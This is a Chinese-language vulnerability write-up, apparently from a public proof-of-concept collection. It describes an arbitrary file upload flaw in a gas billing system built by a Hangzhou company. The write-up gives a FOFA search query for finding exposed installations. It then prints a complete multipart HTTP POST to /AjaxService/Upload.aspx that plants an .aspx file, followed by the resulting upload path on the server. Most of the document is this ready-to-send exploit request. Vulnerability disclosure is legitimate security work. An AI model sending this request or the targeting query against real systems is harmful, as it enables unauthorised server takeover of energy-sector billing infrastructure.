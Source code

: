 # 先锋WEB燃气收费系统AjaxService存在任意文件上传漏洞

# 一、漏洞简介
先锋WEB燃气收费系统是由杭州先锋电子技术股份有限公司开发的一款服务于能源行业的系统，先锋WEB燃气收费系统存在文件上传漏洞，可导致攻击者获取服务器权限。

# 二、影响版本
+ 先锋WEB燃气收费系统

# 三、资产测绘
+ fofa`app="先锋WEB燃气收费系统"`
+ 特征

![1704874235704-3e56b6a3-908c-40ed-b95e-56d707535373.png](./img/HdzFuW3QJddJoKxY/1704874235704-3e56b6a3-908c-40ed-b95e-56d707535373-574124.png)

# 四、漏洞复现
```java
POST /AjaxService/Upload.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------38002115147665341923847377752
Content-Length: 710
Origin: null
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------38002115147665341923847377752
Content-Disposition: form-data; name="Fdata"; filename="1ndex.aspx"
Content-Type: text/html


123
-----------------------------38002115147665341923847377752
Content-Disposition: form-data; name="submit"

Submin
-----------------------------38002115147665341923847377752--
```

![1704874299499-1f95c955-e080-4a8a-b9ae-cc15ac11c5e2.png](./img/HdzFuW3QJddJoKxY/1704874299499-1f95c955-e080-4a8a-b9ae-cc15ac11c5e2-839949.png)

上传文件位置

```java
/UploadFile/202401/2024011004110066.aspx
```

![1704874346773-47fd980d-4198-4d87-b60b-20d20660ccd4.png](./img/HdzFuW3QJddJoKxY/1704874346773-47fd980d-4198-4d87-b60b-20d20660ccd4-793587.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sra2po2of1g77mo7>